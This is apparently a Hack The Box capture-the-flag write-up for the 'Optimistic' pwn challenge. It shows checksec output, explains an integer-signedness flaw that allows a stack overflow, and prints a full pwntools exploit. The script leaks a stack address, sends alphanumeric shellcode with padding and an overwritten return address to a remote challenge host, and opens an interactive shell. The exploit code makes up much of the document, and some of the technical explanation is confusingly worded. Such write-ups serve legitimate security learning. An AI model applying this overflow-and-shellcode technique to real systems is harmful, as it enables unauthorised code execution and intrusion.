

### Optimistic : HTB Challenges : Pwn

Here lets first try to analyze the security features and architecture of the binary.

```bash
$ checksec optimistic
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

```bash
$ file optimistic
optimistic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=24f4b065a2eab20657772e85de2af83b2f6fe8b1, for GNU/Linux 3.2.0, not stripped
```
Now lets analyze the binary in Ghidra and as this binary is not striped we can see function names and symbols loading it into Ghidra we see there are two made functions here :




and in the initialize function we have an alarm function which alarms us after 30 seconds and stops binary but for making our payload we can try patching this function to get the alarm after 255 seconds to give us a lot of time to work with.

By analyzing the main function in Ghidra we can see that its giving us a Stack address when we press y . and we can see that we are getting the Base Pointer address AND ALSO FURTHER analyzing the binary we see that there is unsigned integer value initialized which is then casted into an integer and compared to the bytes and due to how unsigned and signed integers work we get an integer buffer overflow if we replace that unsigned integer value as -1 which is not in the scope of an unsigned integer and goes to the max value in the unsigned integer which then when casted into integers would convert back to -1 as 255 bytes which is the most for an unsigned integer does not exist in signed integers causing this issue and allowing us to basically conduct or do a stack overflow here.


```python
from pwn import *

def main():
    context(os='linux', arch='amd64')
    # io = process('./optimistic_patched')
    io = remote('139.59.169.46', 30872)
    # First Step is to ennumerate
    padding = 104
    stack_offset = -96   
    # get stack address

    io.sendlineafter(': ', 'y')
    stack_address = io.recvline().decode().strip().split()[-1][2:]
    stack_address = bytes.fromhex(stack_address).rjust(8, b'\x00')
    stack_address = u64(stack_address, endian='big') # To make it easier to work with it with addition to the address and so on
    stack_address += stack_offset
    log.success(f'Gottem: {p64(stack_address)}' )

    # Stack Address calculation :
    # We leaked a stack address but we wanna know its location in relation to the Buffer where we can overflow how many bytes is its difference
    # We would have to jump back 96 bytes to get back to stack as char local_68 in main function is 96 and we gotta jump back to behind that and start of stack

    # Step 2 : Do Buffer Overflow
    io.sendlineafter('Email: ', 'ab')
    io.sendlineafter('Age: ', 'ab')
    io.sendlineafter('Length of name: ', '-1')
    # Alpha Numeric Characters are only allowed in this shellcode
    shellcode = b"XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V"
    padding = b'a'* (padding - len(shellcode))
    payload = shellcode + padding + p64(stack_address)   
    io.sendlineafter('Name: ', payload)
    io.interactive()

main()
```
